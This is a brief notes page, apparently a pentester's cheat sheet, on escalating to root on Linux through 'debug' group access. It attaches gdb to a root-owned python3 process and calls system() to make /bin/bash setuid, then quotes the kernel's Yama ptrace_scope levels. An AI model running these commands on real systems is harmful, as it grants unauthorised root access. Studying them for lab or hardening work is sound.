```yaml
---
layout: page
subtitle: Debug group vuln
#gallery_path: "assets/img/pexels"
tags: [Page]
---
```


groups

mail *debug* 

for example

locate proceess for example :


ps aux | grep root | grep python3
root         694  0.0  0.9  26896 18208 ?        Ss   11:02   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers


gdb -p 694

call (void)system("chmod u+s /bin/bash") *we can use any other system commands




comment:

https://www.kernel.org/doc/Documentation/security/Yama.txt

0 - classic ptrace permissions: a process can PTRACE_ATTACH to any other
    process running under the same uid, as long as it is dumpable (i.e.
    did not transition uids, start privileged, or have called
    prctl(PR_SET_DUMPABLE...) already). Similarly, PTRACE_TRACEME is
    unchanged.

1 - restricted ptrace: a process must have a predefined relationship
    with the inferior it wants to call PTRACE_ATTACH on. By default,
    this relationship is that of only its descendants when the above
    classic criteria is also met. To change the relationship, an
    inferior can call prctl(PR_SET_PTRACER, debugger, ...) to declare
    an allowed debugger PID to call PTRACE_ATTACH on the inferior.
    Using PTRACE_TRACEME is unchanged.

2 - admin-only attach: only processes with CAP_SYS_PTRACE may use ptrace
    with PTRACE_ATTACH, or through children calling PTRACE_TRACEME.

3 - no attach: no processes may use ptrace with PTRACE_ATTACH nor via
    PTRACE_TRACEME. Once set, this sysctl value cannot be changed.